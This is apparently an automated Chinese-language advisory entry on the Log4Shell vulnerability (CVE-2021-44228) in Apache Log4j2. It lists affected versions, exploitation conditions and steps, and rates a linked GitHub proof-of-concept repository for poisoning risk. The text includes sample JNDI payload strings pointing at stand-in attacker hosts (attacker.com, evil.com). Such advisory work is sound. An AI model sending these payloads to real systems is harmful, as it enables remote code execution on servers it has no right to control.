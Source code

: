 ## CVE-2021-44228 Apache Log4j2 Log4Shell 远程代码执行

**漏洞编号:** CVE-2021-44228

**漏洞类型:** 远程代码执行

**影响应用:** Apache Log4j2

**危害等级:** 高危，可能导致服务器完全控制

**影响版本:** 2.0-beta9 到 2.15.0 (不包括安全版本 2.12.2, 2.12.3, 和 2.3.1)

**利用条件:** 应用程序使用受影响的Log4j2版本，允许记录用户可控的输入，且启用了message lookup substitution。

**POC 可用性:** 是

**投毒风险:** 10%

## 详情

CVE-2021-44228，也被称为Log4Shell，是Apache Log4j2中的一个严重漏洞。攻击者通过发送包含特定格式的恶意字符串（例如`${jndi:ldap://attacker.com/exploit}`）到应用程序，如果应用程序使用Log4j2记录该字符串，则Log4j2会尝试通过JNDI从攻击者控制的LDAP服务器检索恶意代码，并执行该代码。

**有效性：**
根据提供的漏洞信息、搜索结果和漏洞利用代码，此漏洞的POC代码是有效的。大量报告表明该漏洞已被广泛利用。

**投毒风险：**
提供的漏洞利用代码存储库主要包含漏洞分析和利用说明，以及用于设置LDAP和HTTP服务器的示例。`README.md`详细解释了漏洞的利用过程，并提供了相关的图片说明。`LICENSE`文件表明作者声明了代码的版权和使用许可。`marshalsec`目录可能包含利用所需的工具或者payload。总体来看，该仓库主要目的是为了分析和演示该漏洞，而非恶意投毒。但由于代码包含执行恶意代码的步骤，因此存在一定风险。我判断投毒的可能性是10%。因为`marshalsec`工具本身具备一定的攻击性，如果用户不熟悉该工具，可能会被误导或者滥用。

**利用方式：**
1.  攻击者构造包含JNDI查找的恶意请求字符串，例如 `${jndi:ldap://evil.com/a}`。
2.  应用程序使用存在漏洞的Log4j2版本记录此字符串。
3.  Log4j2解析字符串，发起JNDI请求到攻击者控制的LDAP服务器 `evil.com`。
4.  LDAP服务器返回一个指向恶意Java类的URL。
5.  Log4j2加载并执行该恶意Java类，导致远程代码执行。
6.  攻击者可以在目标服务器上执行任意命令。

**项目地址:** [asd58584388/CVE-2021-44228](https://github.com/asd58584388/CVE-2021-44228)

**漏洞详情:** [CVE-2021-44228](https://nvd.nist.gov/vuln/detail/CVE-2021-44228)